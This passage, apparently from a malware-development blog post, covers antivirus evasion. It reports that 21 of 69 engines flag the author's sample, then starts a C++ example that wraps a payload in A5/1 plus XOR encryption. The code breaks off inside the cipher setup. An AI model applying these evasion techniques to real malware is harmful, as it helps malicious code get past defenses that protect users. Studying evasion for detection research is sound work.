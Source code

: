 ![av-evasion](/assets/images/91/2023-03-25_14-32.png){:class="img-responsive"}      

[https://www.virustotal.com/gui/file/fa19537d1a720a9166431856033d6fa1f8b9e1f6e6ea8d40d179a35ee7403d67/detection](https://www.virustotal.com/gui/file/fa19537d1a720a9166431856033d6fa1f8b9e1f6e6ea8d40d179a35ee7403d67/detection)      

**As you can see, only 21 of 69 AV engines detect our file as malicious**       

### practical example 3

Let's go to modify our "malware" logic, add `XOR` encryption to encrypted payload, so, we got a `A5/1` + `XOR` encrypted payload. Then decrypt via `XOR` and `A5/1`. The order of encryption and decryption is very important here.     

```cpp
/*
 * hack.cpp
 * encrypt/decrypt payload via GSM A5/1 algorithm
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2023/03/24/malware-av-evasion-14.html
*/
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROL(x, y) (((x) << (y)) | ((x) >> (32 - (y))))
#define A5_STEP(x, y, z) ((x & y) ^ (x & z) ^ (y & z))

void a5_1_encrypt(unsigned char *key, int key_len, unsigned char *msg, int msg_len, unsigned char *out) {
  // initialization
  unsigned int R1 = 0, R2 = 0, R3 = 0;
  for (int i = 0; i < 64; i++) {
```